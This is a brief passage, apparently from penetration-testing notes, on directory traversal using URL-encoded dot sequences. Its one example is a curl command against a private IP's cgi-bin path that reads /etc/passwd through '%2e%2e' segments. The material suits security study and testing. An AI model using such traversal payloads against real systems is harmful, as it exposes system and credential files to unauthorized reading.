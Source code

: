 .. after minimum number of .. to reach directory are ignored

### Encoding Special Characters

- Encoding the dots
- curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd


